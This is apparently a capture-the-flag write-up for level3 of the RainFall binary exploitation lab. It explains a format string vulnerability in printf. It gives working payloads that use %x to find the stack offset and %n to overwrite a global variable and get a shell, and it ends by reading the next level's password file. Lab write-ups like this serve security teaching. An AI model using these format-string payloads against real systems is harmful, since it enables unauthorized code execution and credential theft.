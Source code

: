 We see that main call a function v and that we have to find the right conditions to set the variable `m` to `0x40` to activate a shell.

`fgets()` mitigates the problem we had before with `gets()` by specifying the maximum string length.

The function `printf()` fetches the arguments from the stack. Unless the stack is marked with a boundary, `printf()` does not know that it runs out of the arguments that are provided to it. It maintains an initial stack pointer, so it knows the location of the parameters in the stack. In a miss-match case, it will fetch some data that do not belong to this function call.

```
0x080484d5      call printf        ; sym.imp.printf ; int printf(const char *format)
0x080484da      mov eax, dword [m] ; 0x804988c
0x080484df      cmp eax, 0x40      ; 64
```

We need to set the value of `m` at the address `0x804988c` to `0x40`. 

In gdb :
Let's print a bunch of characters and a bunch of addresses thanks to the `%x` specifier (hexadecimal values) that causes the stack pointer to move towards the format string as `printf` considers them as arguments.

```
(gdb) run <<< $(python -c "print 'A' * 20 + '%x ' * 10")
Starting program: /home/user/level3/level3 <<< $(python -c "print 'A' * 20 + '%x ' * 10")
AAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0 41414141 41414141 41414141 41414141 41414141 25207825 78252078
```

It overflows at offset 4 and we can reach that value by writing `%4\$x` after the format string. Now, we want to write our target address `m => 0x804988c` at this place.

We need to have `64` bytes as a value to pass the `cmp`.
We can do this with the `%n` : it's a special format specifier which instead of printing something causes `printf()` to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by `printf()` before the occurrence of `%n`.

`64` - `4` of the target address.

```
(gdb) r <<< $(python -c "print '\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n'")
Starting program: /home/user/level3/level3 <<< $(python -c "print '\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n'")
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
```
or with another specifier : `%[number]` minimum width of number spaces, which, by default, will be right-justified
```
(gdb) r <<< $(python -c "print '\x8c\x98\x04\x08' + '%60d%4\$n'")
Starting program: /home/user/level3/level3 <<< $(python -c "print '\x8c\x98\x04\x08' + '%60d%4\$n'")
�                                                         512
Wait what?!
```

Type it in the terminal :
```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"' && cat) | ./level3
�                                                         512
Wait what?!
whoami
level4
cat /home/user/level4/.pass
```